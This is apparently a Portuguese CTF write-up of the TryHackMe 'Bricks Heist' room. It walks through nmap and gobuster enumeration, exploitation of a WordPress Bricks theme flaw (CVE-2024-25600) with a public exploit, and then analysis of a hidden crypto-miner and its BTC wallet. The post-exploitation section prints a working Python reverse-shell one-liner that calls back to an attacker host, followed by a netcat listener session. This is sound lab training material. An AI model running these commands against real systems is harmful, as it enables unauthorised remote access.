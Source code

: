 ```yaml
---
title: TryHack3M - Bricks Heist
date: 2025-01-28 20:26:00
categories: [TRYHACKME, CTF]
tags: [web,tryhackme,linux,wordpress]      # TAG names should always be lowercase
image: 
 path: /assets/img/posts/2025/01/tryhack3m/room-image.webp

---
```


## Reconhecimento

Realizado varredura de portas

```zsh
──(root㉿estudos)-[/home/alex]
└─# nmap -Pn -sS --open -v 10.10.167.163     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 17:25 -03
Initiating Parallel DNS resolution of 1 host. at 17:25
Completed Parallel DNS resolution of 1 host. at 17:25, 0.24s elapsed
Initiating SYN Stealth Scan at 17:25
Scanning 10.10.167.163 [1000 ports]
Discovered open port 80/tcp on 10.10.167.163
Discovered open port 443/tcp on 10.10.167.163
Discovered open port 3306/tcp on 10.10.167.163
Discovered open port 22/tcp on 10.10.167.163
Completed SYN Stealth Scan at 17:25, 2.99s elapsed (1000 total ports)
Nmap scan report for 10.10.167.163
Host is up (0.32s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
3306/tcp open  mysql

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.50 seconds
           Raw packets sent: 1011 (44.484KB) | Rcvd: 1003 (40.136KB)
                                                                                                                                                                                                    
┌──(root㉿estudos)-[/home/alex]
└─# nmap -Pn -sV -p 22,80,443,3306 10.10.167.163
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 17:25 -03
Nmap scan report for 10.10.167.163
Host is up (0.31s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Python http.server 3.5 - 3.10
443/tcp  open  ssl/http Apache httpd
3306/tcp open  mysql    MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.53 seconds
```

Acessando a aplicação na porta 80, recebemos uma tela de erro, que o método `GET` não é permitido.

![porta80](/assets/img/posts/2025/01/tryhack3m/porta-80.png)

Recebemos outro erro: `Error code: 501`.  
Quando tentamos com outros métodos: `PUT`, `POST` e `OPTIONS`.

```zsh
curl -X POST http://bricks.thm -d ""
curl -X OPTIONS http://bricks.thm
curl -X PUT http://bricks.thm
```

O _endpoint_ que estamos tentando acessar não suporta, aparentemente, nenhum método.
Verificando aplicação da porta 443, temos um resultado melhor.

![porta443](/assets/img/posts/2025/01/tryhack3m/porta443.png)

## Enumeração

Analisando o código fonte da página inicial obtemos informações valiosas.
Bricks se trata de um tema do Wordpress, identificamos a versão de Wordpress sendo utilizada e também o endereço do endpoint da API.

![Source Code](/assets/img/posts/2025/01/tryhack3m/sourceCode.png)

Também descobrimos a versão do tema, que está sendo utilizada através da URL abaixo.


```http
https://bricks.thm/wp-content/themes/bricks/style.css
```

![Style CSS](/assets/img/posts/2025/01/tryhack3m/stylecss.png)

Pelo _endpoint_ e o arquivo `robots.txt`descobrimos a tela de login administrativo.

![Robots.txt](/assets/img/posts/2025/01/tryhack3m/robots.png)

Com a ferramenta `gobuster`encontramos `phpAdmin`, comando:

```shell
gobuster dir -k -r -e -u https://bricks.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![PHP admin](/assets/img/posts/2025/01/tryhack3m/phpadmin.png)

## Exploração

Com a informação da versão do tema, que está sendo utilizado, encontramos na web um _exploit_ público, que explora um plugin do  `Bricks` que não realiza as devidas verificações dos _inputs_ do usuário. A versão do exploit abrange até a  versão`1.9.6` do tema.

Link do exploit:`https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT`
CVE: `2024-25600`

Antes de clonarmos o repositório, para nossa máquina local, realizamos a leitura do _exploit_ (boa prática!).
Executando o _exploit_ obtemos nossa shell e obtemos nossa primeira flag!

![exploit](/assets/img/posts/2025/01/tryhack3m/exploit.png)

## Pós exploração

Agora vamos obter outra shell, assim podemos realizar um upgrade para uma _shell full tty_.
Shell reversam em python:

```shell
/usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY IP",PORTA));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Após obter a shell, deixamos ela _full tty_.

```shell
┌──(alex㉿kali)-[~]
└─$ nc -vlnp 4444   
listening on [any] 4444 ...
connect to [10.2.13.47] from (UNKNOWN) [10.10.223.140] 33576
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
apache@tryhackme:/data/www/default$  export TERM=xterm
 export TERM=xterm
apache@tryhackme:/data/www/default$ ^Z
zsh: suspended  nc -vlnp 4444
                                                                          
┌──(alex㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -vlnp 4444
                               stty rows 38 columns 116
apache@tryhackme:/data/www/default$
```

### Analisando processos

Com o comando `top` analisamos os processos que estão sendo executados no momento.

![top](/assets/img/posts/2025/01/tryhack3m/top.png)

Não identificamos nenhum processo suspeito, com o comando `ps -elf` listamos todos os processos, a lista é extensa e não apresenta nenhum processo que seja suspeito. 
Vamos tentar outro comando: `systemctl | grep running`.

![systemctl](/assets/img/posts/2025/01/tryhack3m/systemctl.png)

Temos um processo com nome suspeito, `TRYHACK3M`, com `systemctl status ubuntu.service`, temos mais detalhe sobre o processo.

![ubuntu service](/assets/img/posts/2025/01/tryhack3m/service.png)

Temos as respostas da nossa segunda e terceira pergunta.
Analisando o diretório `/var/log` não foi encontrado nenhum arquivo referente a esse minerador.
Com o comando `lsof -p 2567`foi listado os arquivos que foram abertos por esse processo, nenhum dos arquivos parecia com um arquivo de log. Foi então que analisando o diretório, onde o processo suspeito era executado, foi encontrado o arquivo de log.

![ls](/assets/img/posts/2025/01/tryhack3m/ls.png)

Com o comando `head`listamos apenas o início do arquivo, assim ficando fácil identificar, que se tratava de um arquivo de log.

![log file](/assets/img/posts/2025/01/tryhack3m/log.png)

Outra forma de descobrir, seria realizando a transferência do binário, para a máquina local, e depois analisando-o no Virustotal, em `behavior` é possível ver os arquivos que foram abertos.

![Virus Total](/assets/img/posts/2025/01/tryhack3m/Virtustotal.png)

Dentro do arquivo de log temos um campo com `ID`, seguido de uma string, que aparentemente parece ser em hexadecimal, no cyberchef realizamos o decode de hexadecimal para base 64, e depois realizamos novamente para base 64.

![CyberChef](/assets/img/posts/2025/01/tryhack3m/cyberchef1.png)

Com isso chegamos em uma string, que inicia com `bc1`, carteiras de BTC que iniciam com `bc1` são conhecidas como **endereços bech32** ou **endereços SegWit nativos**. A resposta ainda não está correta, analisando o endereço da carteira vemos que está duplicada, e ultrapassa a quantidade máxima de caracteres de uma carteira de BTC, dividimos a strings em dois, o delimitador é o `bc1`.

![CyberChef 2](/assets/img/posts/2025/01/tryhack3m/cyberchef2.png)

Temos nossa resposta, da penúltima questão.

## Pesquisando Wallet

Para responder a última pergunta precisaremos da ajuda de um `Blockchain explorer`, assim verificamos cada transação feita envolvendo essa carteira.

![Blockchain](/assets/img/posts/2025/01/tryhack3m/Blockchain.png)

Estamos com sorte! O primeiro endereço pesquisado já nos da informação que precisamos, o nome do grupo, e com isso concluímos todas as perguntas.

![Group Threat](/assets/img/posts/2025/01/tryhack3m/groupthreat.png)

## Conclusão

O CTF exige que o atacante tenha um conhecimento mínimo de técnicas de enumeração. Após isso, é necessário ter conhecimento prévio de sistemas Linux para a realização da análise de processos. O conhecimento de análise de binários não é necessário, mas pode auxiliar em uma análise mais aprofundada. Por último, é necessário ter noções sobre conversão de bases e o padrão de criação de carteiras de BTC, além de saber como pesquisá-las.






